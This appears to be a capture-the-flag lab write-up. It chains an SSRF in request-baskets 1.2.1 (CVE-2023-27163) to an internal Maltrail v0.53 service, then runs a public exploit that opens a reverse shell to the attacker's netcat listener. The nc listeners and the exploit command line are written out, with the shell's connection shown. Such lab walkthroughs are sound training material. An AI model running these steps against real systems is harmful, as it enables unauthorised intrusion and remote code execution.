







http://10.10.11.224:55555/web - landing page - create a basket to collect and inspect HTTP requests.

`Powered by [request-baskets](https://github.com/darklynx/request-baskets) | Version: 1.2.1`



http://10.10.11.224:55555/web/baskets - provide the master toekn and gain access to all the baskets


## Creating a random basket
```
Basket 'rf9vwi3' is successfully created!

Your token is: ==5vrisXrw4Q0jLXNM3ABP5bQSHGZF8xnXcETGtxnKMr2P==
```

http://10.10.11.224:55555/web/rf9vwi3


### sending a get request
```
┌──(kali㉿kali)-[~]
└─$ curl -X GET http://10.10.11.224:55555/rf9vwi3

```

There are lots of interesting settings


## Potential CVEs
### CVE-2023-27163
- https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7
- https://nvd.nist.gov/vuln/detail/CVE-2023-27163

Created basket:
`http://10.10.11.224:55555/lrfwo5j`

Start a listener on port 80 
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
```
Forward the URL to the attacker


curl the basket and see if a response is gotten...
```
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.11.224:55555/lrfwo5j

```

Got a connection, but booted off.
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.224] 49524
GET / HTTP/1.1
Host: 10.10.14.14
User-Agent: curl/8.15.0
Accept: */*
X-Do-Not-Forward: 1
Accept-Encoding: gzip

whoami
                                                                             
┌──(kali㉿kali)-[~]
└─$ 

```

Try to hit the target localhost 80


Accessed localhost port 80 on the target!
http://10.10.11.224:55555/lrfwo5j


Powered by **M**altrail (v**0.53**)

## Maltrail exploit
https://github.com/spookier/Maltrail-v0.53-Exploit

Set up a listener on the attacker
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...

```

Run the exploit
```
┌──(kali㉿kali)-[~/GitHub_Misc/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 10.10.14.14 1337 http://10.10.11.224:55555/lrfwo5j
Running exploit on http://10.10.11.224:55555/lrfwo5j/login

```

Got a shell!
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.224] 45242
$ 

```